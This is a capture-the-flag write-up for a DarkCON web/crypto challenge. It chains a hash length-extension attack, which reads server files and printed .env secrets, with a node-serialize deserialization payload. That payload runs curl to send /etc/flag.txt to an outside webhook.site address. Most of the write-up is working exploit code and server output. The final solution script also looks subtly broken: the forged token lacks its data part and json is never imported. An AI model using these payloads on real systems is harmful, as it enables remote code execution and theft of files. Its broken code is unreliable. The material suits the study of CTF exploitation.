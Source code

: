 # Web+Crypto (3 solves / 498 points)
Made this website where you can read files 
Note: Flag at /etc/flag.txt

## Soure Code:
* [Source Code](https://github.com/karma9874/My-CTF-Challenges/tree/main/DarkCON-ctf/Misc/Web%2BCrypto)

## TL;DR
/readfile is vulnerable to length extension attack, so read source file of web app and exploiting the node-deserialization attack

## Solution

So from webpage source code we see that there are total 3 funionality of the web app registration,login,readfile

After login we get token using that token to readfile we can read the `68696e742e747874` (hex decode as hint.txt)

```bash
root@KARMA:/# curl -XPOST -H "Content-Type: application/json" -d '{"username":"karma","password":"karma"}' http://web-crypto.darkarmy.xyz/login
{"token":"eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4="}
```

```bash
root@KARMA:/# curl -XPOST -H "Content-Type: application/json" -d '{"token": "eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4=", "filename": "68696e742e747874", "sig":"e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01"}' http://web-crypto.darkarmy.xyz/readfile
{"filedata":"Implementing MAC and adding cheese to it pfftt...easy,btw cheese length is less than 30 chars xD\n"}
```

`Implementing MAC and adding cheese to it and cheese length is less than 30 chars`  -> this suggest it to length extension attack with password length less than 30 chars given

Web app is running on nodejs so `package.json` must be present on the system

We get the contents of package.json at `22` so password length is `22`

```py
import hashpumpy
import requests
import json
import binascii
for i in range(1,30):
  sig,inp = hashpumpy.hashpump("e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01","hint.txt","/../package.json",i)
  filename = binascii.hexlify(inp).decode()
  url = 'http://web-crypto.darkarmy.xyz/readfile'
  myobj = {"token": "eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4=","filename":filename,"sig":sig}
  x = requests.post(url, data = json.dumps(myobj),headers ={"Content-Type":"application/json"})
  print(x.text)

# response 
# {"filedata":"{\n  \"name\": \"web_crypto\",\n  \"version\": \"1.0.0\",\n  \"description\": \"\",\n  \"main\": \"app.js\",\n  \"scripts\": {\n    \"test\": \"echo \\\"Error: no test specified\\\" && exit 1\"\n  },\n  \"keywords\": [],\n  \"author\": \"\",\n  \"license\": \"ISC\",\n  \"dependencies\": {\n    \"body-parser\": \"^1.19.0\",\n    \"dotenv\": \"^8.2.0\",\n    \"ejs\": \"^3.1.5\",\n    \"express\": \"^4.17.1\",\n    \"mysql\": \"^2.18.1\",\n    \"node-serialize\": \"0.0.4\",\n    \"cluster\": \"^0.7.7\"\n  }\n}\n"}

```
From the response we can also read the `app.js` which leads to the file `/models/User.js` 

`node-serialize` is used in User.js for creating the user specific `token`

```js
encrypter(user) {
    var shasum = crypto.createHmac('sha1',process.env.AUTH_SECRET);
    var data = Buffer.from(serialize.serialize(user)).toString('base64') 
    return data+"--"+shasum.update(data).digest('base64'); 
    }

  decrypter(token) {
    return new Promise(function(resolve,reject){
    var data = token.split("--")
    var shasum = crypto.createHmac('sha1',process.env.AUTH_SECRET);
    if(data[1] === shasum.update(data[0]).digest('base64')){
        try{
          return resolve(serialize.unserialize(Buffer.from(data[0], 'base64').toString()))
        }catch(err){
          return reject(err.message);
        }
    }else{
      return reject("Trying to hack? lol")
    }});
  }
````

A little bit of google search for `node-serialize` leads to that the npm package is vulnerable to node-deserialization rce attack 

```js
app.post('/readfile',(req,res)=>{
  var token = req.body.token
  var sig = req.body.sig
  var name = req.body.filename
  console.log(token+sig+name)
  if(token && sig && name){
    var userobj = new User().decrypter(token).then(function(obj){
      filename = Buffer.from(name,'hex').toString('binary')
      new User().access_file(filename,sig).then(function(data){
        res.json({"filedata":data})
      }).catch(function(err){
        res.json({"err":err})
      })
    }).catch(function(err){
        res.json({"err":err})
      });
  }else{
    res.json({"err":"Invalid request"})
  }
});
```

And from `readfile` route we can check that the app first verifies the token and then forwards it to `decrypter` function which calls the `unserialize` function which can give rce

So for that to work we need to sign our payload with valid signature, so the AUTH_SECRET is comming from .env file which we can easily read it

.env file
```
DB_HOST=wc_mysql
DB_USER=root
DB_NAME=scam
nDB_PASS=scammer@123
HASH_SECRET=testingallthewayintoit
AUTH_SECRET=abhikliyekuchbhitestingkar
```

Solution Script
```py
from hashlib import sha1
import hmac
import requests

# {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('curl -XPOST --data-binary \"@/etc/flag.txt\" https://webhook.site/eb800bdc-e7a9-4765-852b-1a6513b56f4d', function(error, stdout, stderr) { console.log(stdout)});}()"}

raw = "eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgLVhQT1NUIC0tZGF0YS1iaW5hcnkgXCJAL2V0Yy9mbGFnLnR4dFwiIGh0dHBzOi8vd2ViaG9vay5zaXRlL2ViODAwYmRjLWU3YTktNDc2NS04NTJiLTFhNjUxM2I1NmY0ZCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpfSk7fSgpIn0="

key = "abhikliyekuchbhitestingkar"
hashed = hmac.new(key, raw, sha1)
payload_token = hashed.digest().encode('base64')
url = 'http://web-crypto.darkarmy.xyz/readfile'
myobj = {"token": payload_token,"filename":"68696e742e747874","sig":"e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01"}
x = requests.post(url, data = json.dumps(myobj),headers ={"Content-Type":"application/json"})
print(x.text)
```

## Flag
> darkCON{l3ngth_3xt3ns10n_2_n0d3_s3r1411z3_brrrrr_xD}